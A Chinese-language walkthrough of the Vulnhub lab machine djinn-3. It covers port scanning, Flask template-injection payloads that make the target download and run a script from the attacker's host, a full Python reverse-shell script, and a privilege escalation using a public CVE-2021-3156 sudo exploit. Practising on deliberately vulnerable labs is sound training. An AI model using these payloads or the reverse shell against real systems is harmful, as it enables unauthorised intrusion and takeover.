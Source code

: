 ```yaml
---

title: Vulnhub	492	djinn-3

---
```

考点：flask

靶机链接：<https://www.vulnhub.com/entry/djinn-3,492/>

## 环境配置

| 名称       | IP        |
| ---------- | --------- |
| Kali Linux | 10.0.2.15 |
| djinn-3    | 10.0.2.10 |

## 初步打点

### 端口扫描

```bash
$ export rip=10.0.2.10
$ sudo nmap -v -A -p- $rip
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e6:44:23:ac:b2:d9:82:e7:90:58:15:5e:40:23:ed:65 (RSA)
|   256 ae:04:85:6e:cb:10:4f:55:4a:ad:96:9e:f2:ce:18:4f (ECDSA)
|_  256 f7:08:56:19:97:b5:03:10:18:66:7e:7d:2e:0a:47:42 (ED25519)
80/tcp    open  http    lighttpd 1.4.45
|_http-title: Custom-ers
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-server-header: lighttpd/1.4.45
5000/tcp  open  http    Werkzeug httpd 1.0.1 (Python 3.6.9)
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
|_http-server-header: Werkzeug/1.0.1 Python/3.6.9
31337/tcp open  Elite?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, NULL: 
|     username>
|   GenericLines, GetRequest, HTTPOptions, RTSPRequest, SIPOptions: 
|     username> password> authentication failed
|   Help: 
|     username> password>
|   RPCCheck: 
|     username> Traceback (most recent call last):
|     File "/opt/.tick-serv/tickets.py", line 105, in <module>
|     main()
|     File "/opt/.tick-serv/tickets.py", line 93, in main
|     username = input("username> ")
|     File "/usr/lib/python3.6/codecs.py", line 321, in decode
|     (result, consumed) = self._buffer_decode(data, self.errors, final)
|     UnicodeDecodeError: 'utf-8' codec can't decode byte 0x80 in position 0: invalid start byte
|   SSLSessionReq: 
|     username> Traceback (most recent call last):
|     File "/opt/.tick-serv/tickets.py", line 105, in <module>
|     main()
|     File "/opt/.tick-serv/tickets.py", line 93, in main
|     username = input("username> ")
|     File "/usr/lib/python3.6/codecs.py", line 321, in decode
|     (result, consumed) = self._buffer_decode(data, self.errors, final)
|     UnicodeDecodeError: 'utf-8' codec can't decode byte 0xd7 in position 13: invalid continuation byte
|   TerminalServerCookie: 
|     username> Traceback (most recent call last):
|     File "/opt/.tick-serv/tickets.py", line 105, in <module>
|     main()
|     File "/opt/.tick-serv/tickets.py", line 93, in main
|     username = input("username> ")
|     File "/usr/lib/python3.6/codecs.py", line 321, in decode
|     (result, consumed) = self._buffer_decode(data, self.errors, final)
|_    UnicodeDecodeError: 'utf-8' codec can't decode byte 0xe0 in position 5: invalid continuation byte

```

### WEB测试

查看5000端口，感觉应该是存在flask SSTI漏洞

31337端口需要用户名密码，guest/guest 连上，发现可以发内容，并显示在5000端口

### 漏洞发现

![1](https://static.iihack.com/vulnhub/492/1.png)

![2](https://static.iihack.com/vulnhub/492/2.png)

还可以执行命令了

本地http服务目录存放反弹shell脚本`r.py`

```python
import sys, socket, subprocess, os

port = int(sys.argv[1])
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('10.0.2.15', port))
os.dup2(s.fileno(), 0)
os.dup2(s.fileno(), 1)
os.dup2(s.fileno(), 2)
p = subprocess.call(["/bin/sh", "-i"])

```

```bash
# 下载
> open                                                      
Title: 8
Description: {{request.application.__globals__.__builtins__.__import__('os').popen('wget http://10.0.2.15/reverse/r.py -O r.py').read()}}
# 运行
> open                                                      
Title: 9
Description: {{request.application.__globals__.__builtins__.__import__('os').popen('python3.6 r.py 444').read()}}
```



## 获得权限

### 靶机测试

本地监听，点击5000端口的链接，获得反弹shells

![3](https://static.iihack.com/vulnhub/492/3.png)

## 提权

使用CVE-2021-3156提权

```bash
$ git clone https://github.com/worawit/CVE-2021-3156
$ cd CVE-2021-3156
$ python exploit_nss.py 
```

![4](https://static.iihack.com/vulnhub/492/4.png)
